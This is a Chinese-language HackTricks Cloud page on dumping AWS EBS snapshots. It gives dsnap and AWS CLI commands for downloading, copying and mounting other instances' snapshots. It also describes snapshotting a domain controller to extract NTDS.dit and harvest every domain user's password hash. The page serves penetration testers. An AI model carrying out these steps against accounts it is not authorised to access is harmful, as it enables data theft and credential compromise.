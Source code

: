 # AWS - EBS快照转储

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 本地检查快照
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**注意** `dsnap` 不允许您下载公共快照。为了规避这个问题，您可以在您的个人账户中复制该快照，然后下载：
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

有关此技术的更多信息，请查看[https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

您可以使用Pacu模块[ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## 在AWS中检查快照
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**在您控制下的EC2 VM中挂载它**（必须与备份副本位于同一区域）：

第1步：转到EC2 –> Volumes，创建一个您喜欢的大小和类型的新卷。

要执行此操作，请按照以下命令操作：

* 创建要附加到EC2实例的EBS卷。
* 确保EBS卷和实例位于同一区域。

第2步：右键单击创建的卷，选择“附加卷”选项。

第3步：从实例文本框中选择实例。

要执行此操作，请使用以下命令：

* 附加EBS卷。

第4步：登录到EC2实例，并使用命令`lsblk`列出可用磁盘。

第5步：使用命令`sudo file -s /dev/xvdf`检查卷是否有任何数据。

如果上述命令的输出显示“/dev/xvdf: data”，则表示该卷为空。

第6步：使用命令`sudo mkfs -t ext4 /dev/xvdf`将卷格式化为ext4文件系统。或者，您也可以使用命令`sudo mkfs -t xfs /dev/xvdf`来使用xfs格式。请注意，您应该使用ext4或xfs中的一个。

第7步：创建一个您选择的目录以挂载新的ext4卷。例如，您可以使用名称“newvolume”。

要执行此操作，请使用命令`sudo mkdir /newvolume`。

第8步：使用命令`sudo mount /dev/xvdf /newvolume/`将卷挂载到“newvolume”目录。

第9步：切换到“newvolume”目录并检查磁盘空间以验证卷挂载。

要执行此操作，请使用以下命令：

* 切换到`/newvolume`目录。
* 使用命令`df -h .`检查磁盘空间。此命令的输出应显示“newvolume”目录中的可用空间。

您可以使用Pacu中的模块`ebs__explore_snapshots`执行此操作。

## 在AWS中检查快照（使用cli）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
## 影子拷贝

任何拥有 **`EC2:CreateSnapshot`** 权限的 AWS 用户都可以通过创建一个 **域控制器的快照**，将其挂载到他们控制的实例上，并导出 NTDS.dit 和 SYSTEM 注册表文件，从而窃取所有域用户的哈希值，用于 Impacket 的 secretsdump 项目。

您可以使用这个工具自动化攻击：[https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy)，或者在创建快照后使用之前的技术之一。

## 参考资料

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的 **公司在 HackTricks 中做广告** 或 **下载 PDF 版本的 HackTricks**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
